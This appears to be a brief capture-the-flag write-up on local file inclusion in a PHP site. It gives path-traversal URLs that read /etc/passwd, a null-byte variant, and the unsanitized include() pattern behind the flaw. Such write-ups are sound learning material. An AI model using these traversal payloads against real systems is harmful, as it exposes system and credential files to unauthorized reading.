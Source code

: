 ## 1 About
This occurs when a PHP script includes files based on user input, and the input isn’t sanitized

## 2 The signs
Check the home address:
http://172.16.60.128/?page=home
The '?page' is good a reason to suggest an issue with LFI

## 3 How to find
Try this address:
http://10.39.42.166/?page=../../../../../../../etc/passwd
You'll get an alert with the flag

## 4 Why it works?
The backend uses something like:
include($_GET['page'] . '.php');

Without sanitization it becomes:
include('../../../../etc/passwd.php');

/etc/passwd is not a PHP file. And with a null byte injection
http://172.16.60.128/?page=../../../../etc/passwd%00
We could get access to the backend source code